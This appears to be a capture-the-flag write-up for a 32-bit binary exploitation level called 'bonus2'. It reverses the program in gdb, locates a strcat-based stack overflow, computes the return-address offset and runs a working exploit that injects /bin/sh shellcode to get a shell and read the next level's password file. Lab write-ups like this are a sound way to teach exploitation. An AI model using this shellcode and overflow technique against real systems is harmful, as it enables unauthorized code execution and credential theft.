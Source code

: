 

rep stos %eax,%es:(%edi)   <====> memset(buffer, 0, sizeof(buffer));

The "rep" prefix specifies that the instruction should be repeated multiple times,

while the "stos" instruction stores the value in the %eax register to the destination pointed to by %es:%edi.

In other words, this instruction performs a repeating store of the value in the %eax register 
to consecutive memory locations starting from the address specified by %es:%edi.

This is a kind of memset on the buffer start at address esp+0x50

```
(gdb) x/4wx $esp+0x50
0xbffff680:	0x08048287	0x00000000	0x00c30000	0x00000001

(gdb) rep stos %eax,%es:(%edi) 

(gdb) x/4wx $esp+0x50
0xbffff680:	0x00000000	0x00000000	0x00000000	0x00000000
```

```
mov    0xc(%ebp),%eax
add    $0x8,%eax
mov    (%eax),%eax

movl   $0x20,0x8(%esp)
mov    %eax,0x4(%esp)

lea    0x50(%esp),%eax
add    $0x28,%eax
mov    %eax,(%esp)
call   0x80483c0 <strncpy@plt>


movl   $0x20, 0x4(%esp)   ; maximum number of characters to copy (32)
mov    %eax, (%esp)       ; source buffer (src)
lea    0x50(%esp), %eax   ; destination buffer (dest)

The parameters are passed in the following order:
dest: 0x50(%esp)
src: %eax
n: 0x20 (32)

strncpy((char*)0x50(%esp) + 0x28, (const char*)%eax, 0x20);


buffer = 0x50
strncpy(buffer + 0x28, argv[2], 0x20);
```

```
run AAAA BBBB

0xbffff690:	0x41414141	0x00000000	0x00000000	0x00000000
0xbffff6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6b0:	0x00000000	0x00000000	0x42424242	0x00000000
0xbffff6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff6d0:	0x00000000	0x00000000	0x00000000	0xbfffff05

(gdb) p/d 0xbffff6b8 - 0xbffff690
$1 = 40
(gdb) p/d 0xbffff6d8 - 0xbffff6b8
$3 = 32

```

```
 0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
 
 Move every dword of esi in edi
 copied all content of buffer to esp
```

function greetuser

```
0x08048494 <+16>:	 cmp    $0x2,%eax
0x080484e9 <+101>:	mov    $0x804872a,%edx

(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "

   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
=> 0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>

strcat("Goedemiddag! " , av[1])

puts("Goedemiddag! AAAA")
```


```
run $(python -c 'print "A" * 40') "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaaabaaacaaadaaaeaaafaaagaaahaaa

SIGSEGV
0x61666161

cyclic -l 0x61666161 = 18
```

```
run  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

0xbffff650:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff660:	0x6a414141	0x5299580b	0x732f2f68	0x622f6868
0xbffff670:	0xe3896e69	0x80cdc931	0x42424242	0x42424242
0xbffff680:	0x42424242	0x42424242	0xf6604242	0x0000bfff


/home/user/bonus2/bonus2  $(python -c 'print "A" * 19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" ') $(python -c 'print "B" * 18 + "\xbf\xff\xf6\x50"[::-1]')

$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```





